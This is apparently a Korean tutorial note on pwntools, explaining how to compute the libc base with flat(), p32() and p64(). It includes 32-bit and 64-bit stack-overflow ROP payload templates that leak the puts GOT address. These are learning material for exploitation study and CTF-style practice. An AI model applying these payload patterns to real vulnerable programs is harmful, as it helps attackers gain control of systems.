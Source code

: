 # payload 로 libc base 주소 계산

#### flat() 함수를 이용하면 libc.address 변수를 활용해서 payload 를 간단하게 만들 수 있다.
##### flat() 함수를 이용하면 little endian 문자로 일괄 변환해 준다.
```python
>>> flat("AAAA", 0xdeadbeef, "BBBB")
b'AAAA\xef\xbe\xad\xdeBBBB'
>>> 
```

##### flat() 함수를 이용한 payload 작성
```python
payload = flat(
    'A' * 76,
    elf.plt['puts'],
    elf.sym['vuln_func'],
    elf.got['puts']
)
```

##### p32()와 p64()를 이용한 payload 작성
```python
payload = b"A" * 76
payload += p32(puts_plt)
payload += p32(elf.symbols["vuln_func"])
payload += p32(puts_got)
```


##### 32비트에서 puts.got 주소 leak하는 payload 작성
##### puts(puts.got) 함수 payload 작성 (calling convention 참고 작성)
```python
# 스택 구성 buf[72] + sftp[4] + ret[4] 일 때,
payload = flat(
    'A' * 76,
    elf.plt['puts'],
    elf.sym['vuln_func'],    # ret 주소 위치(ROP할 때는 pr, ppr, pprt 등 가젯 활용)
    elf.got['puts']
)
```


##### 64비트에서 puts.got 주소 leak하는 payload 작성
##### puts(puts.got) 함수 payload 작성 (calling convention 참고 작성)
```python
# buf[64] + sftp[8] + ret[8]
payload = flat(
    b"A" * 72,
    pop_rdi_ret,
    elf.got['puts'],
    elf.plt['puts'],
    elf.sym['vuln_func'],    # ret 주소 위치(ROP할 때는 pr, ppr, pprt 등 가젯 활용)
)
```
